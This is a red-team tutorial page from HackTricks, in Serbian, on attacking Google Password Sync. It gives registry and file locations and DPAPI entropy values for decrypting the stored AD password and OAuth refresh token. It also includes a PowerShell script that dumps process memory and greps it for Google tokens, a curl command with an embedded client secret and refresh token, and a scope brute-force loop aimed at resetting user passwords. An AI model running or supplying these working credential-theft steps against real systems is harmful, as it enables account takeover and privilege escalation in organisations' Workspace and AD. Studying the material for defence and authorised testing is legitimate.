 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ovo je binarni fajl i servis koji Google nudi kako bi **održao sinhronizovane lozinke korisnika između AD** i Workspace-a. Svaki put kada korisnik promeni svoju lozinku u AD-u, ona se postavlja na Google.

Instalira se u `C:\Program Files\Google\Password Sync` gde možete pronaći binarni fajl `PasswordSync.exe` za konfiguraciju i `password_sync_service.exe` (servis koji će nastaviti da radi).

### GPS - Configuration

Da biste konfigurisali ovaj binarni fajl (i servis), potrebno je **dati mu pristup Super Admin principalu u Workspace-u**:

* Prijavite se putem **OAuth** sa Google-om i onda će **sačuvati token u registru (kriptovan)**
* Dostupno samo na kontrolerima domena sa GUI
* Dati neke **akreditivne podatke Servisnog Naloga iz GCP** (json fajl) sa dozvolama da **upravljaju korisnicima Workspace-a**
* Veoma loša ideja jer ti akreditivi nikada ne isteknu i mogu se zloupotrebiti
* Veoma loša ideja dati SA pristup preko workspace-a jer bi SA mogao biti kompromitovan u GCP-u i moguće je prebaciti se na Workspace
* Google to zahteva za kontrolisane domene bez GUI
* Ovi akreditivi se takođe čuvaju u registru

Što se tiče AD-a, moguće je naznačiti da koristi trenutni **kontekst aplikacija, anonimno ili neke specifične akreditive**. Ako je opcija akreditiva izabrana, **korisničko ime** se čuva unutar fajla na **disku** a **lozinka** je **kriptovana** i čuva se u **registru**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Napomena da [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) može da detektuje **GPS**, dobije informacije o konfiguraciji i **čak dekriptuje lozinku i token**.
{% endhint %}

U fajlu **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** moguće je pronaći deo konfiguracije kao što je **`baseDN`** AD-a koji je konfigurisan i **`username`** čiji se akreditivi koriste.

U registru **`HKLM\Software\Google\Google Apps Password Sync`** moguće je pronaći **kriptovani refresh token** i **kriptovanu lozinku** za AD korisnika (ako ih ima). Štaviše, ako se umesto tokena koriste neki **SA akreditivi**, takođe je moguće pronaći te kriptovane u toj adresi registra. **Vrednosti** unutar ovog registra su dostupne samo **Administratorima**.

Kriptovana **lozinka** (ako je ima) se nalazi unutar ključa **`ADPassword`** i kriptovana je koristeći **`CryptProtectData`** API. Da biste je dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** kada koristite **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Kriptovani token (ako ga ima) se nalazi unutar ključa **`AuthToken`** i kriptovan je koristeći **`CryptProtectData`** API. Da biste ga dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** kada koristite **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Štaviše, takođe je kodiran koristeći base32hex sa rečnikom **`0123456789abcdefghijklmnopqrstv`**.

Vrednosti entropije su pronađene korišćenjem alata. Konfigurisano je da prati pozive ka **`CryptUnprotectData`** i **`CryptProtectData`** i zatim je alat korišćen za pokretanje i praćenje `PasswordSync.exe` koji će dekriptovati konfigurisanju lozinku i auth token na početku, a alat će **prikazati vrednosti za korišćenu entropiju** u oba slučaja:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Napomena da je takođe moguće videti **dekriptovane** vrednosti u ulazu ili izlazu poziva ovih API-ja takođe (u slučaju da u nekom trenutku Winpeas prestane da radi).

U slučaju da je Password Sync **konfiguran sa SA akreditivima**, takođe će biti sačuvani u ključevima unutar registra **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Baš kao i sa GCPW, moguće je dump-ovati memoriju procesa `PasswordSync.exe` i `password_sync_service.exe` i moći ćete da pronađete refresh i access tokene (ako su već generisani).\
Pretpostavljam da biste takođe mogli pronaći konfiguracione akreditive za AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generisanje pristupnih tokena iz osvežavajućih tokena

Korišćenjem osvežavajućeg tokena moguće je generisati pristupne tokene koristeći ga i ID klijenta i tajnu klijenta navedene u sledećoj komandi:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Imajte na umu da čak i sa refresh token-om, nije moguće zatražiti bilo koji scope za access token jer možete zatražiti samo **scope-ove koje podržava aplikacija u kojoj generišete access token**.

Takođe, refresh token nije važeći u svakoj aplikaciji.
{% endhint %}

Podrazumevano, GPS neće imati pristup kao korisnik svim mogućim OAuth scope-ovima, pa možemo koristiti sledeći skript da pronađemo scope-ove koji se mogu koristiti sa `refresh_token` za generisanje `access_token`:

<details>

<summary>Bash skript za brute-force scope-ove</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

I ovo je izlaz koji sam dobio u vreme pisanja:
```
https://www.googleapis.com/auth/admin.directory.user
```
Koji je isti kao onaj koji dobijate ako ne navedete nikakav opseg.

{% hint style="danger" %}
Sa ovim opsegom možete **modifikovati lozinku postojećeg korisnika kako biste povećali privilegije**.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
